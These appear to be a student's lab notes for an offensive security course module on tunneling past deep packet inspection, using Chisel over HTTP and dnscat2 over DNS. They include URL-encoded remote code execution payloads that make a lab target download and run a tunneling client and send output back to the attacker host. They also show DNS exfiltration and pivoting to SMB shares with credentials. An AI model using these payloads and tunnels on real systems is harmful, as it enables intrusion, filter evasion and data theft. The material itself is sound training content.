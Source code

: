 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Module 19: Tunneling Through Deep Packet Inspection

## HTTP Tunneling Theory and Practice

### HTTP Tunneling Fundamentals

Because of things like _Deep Packet Inspection (DPI)_ we may only be able to communicate via a specific protocol, in this case HTTP. Essentially, we'll be doing the same thing as we did in the last module where we tunneled traffic through our SSH tunnel, but this time through HTTP.

### HTTP Tunneling with Chisel

Introducing _Chisel_! Chisel is a HTTP tunneling tool that encapsulates our data stream within HTTP, using the SSH protocol within the tunnel so data is encrypted. Let's get teh Chisel started.

{% code overflow="wrap" lineNumbers="true" %}
```bash
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
kali@kali:~$ sudo systemctl start apache2

# Setting up a tcpdump to log the incoming traffic
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080

# Utilizing our RCE to download the chisel client and make it executable
# The command: wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

# Setting up the chisel server
kali@kali:~$ chisel server --port 8080 --reverse

# Making the chisel client connect, setting up a reverse SOCKS tunnel
# The command: /tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/

# Huh... nothing happened. Time too redirect stdout and strderr to a file, sending the contents of that file over http back to our Kali box.
# The command: /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
kali@kali:~$curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/

# The error found was /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
# Our steps to troubleshoot this one involves checking the version of our chisel client via chisel -h. Researching this version compiled with Go 1.20.7 indicated other errors. Further research finds that there is a Go 1.19-compiled Chisel 1.81 binary for Linux on amd64 processors. We can then redownload this new agent and test again. Success! The chisel server also indicates an inbound connection.

# Using ncat to push ssh through the socks proxy.
kali@kali:~$ sudo apt install ncat
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
{% endcode %}

## DNS Tunneling Theory and Practice

### DNS Tunneling Fundamentals

Example of exfiltration via DNS: making DNS queries to HEX strings.domainwecontrol.com where the HEX strings are bits of encoded binary/sensitive data.

Example of infiltration via DNS: Hosting our own DNS server with txt records, then querying them from an _internal_ device.

### DNS Tunneling with dnscat2

Starting the dnscat2 server:

```bash
kali@felineauthority:~$ dnscat2-server feline.corp

# From the internal device
database_admin@pgdatabase01:~$ cd dnscat/
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp

# Back on the kali box running dnscat2 we see a session established
dnscat2> New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas

dnscat2>

# Interacting with the session created
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
command (pgdatabase01) 1>

# Now let's get the DNS tunneling setup via the listen command
command (pgdatabase01) 1> listen --help
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
	-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
  --help, -h:   Show this message
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445

# Finally, let's utilize the DNS tunneling to try and list SMB shares
kali@felineauthority:~$ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
Password for [WORKGROUP\hr_admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
    	scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```
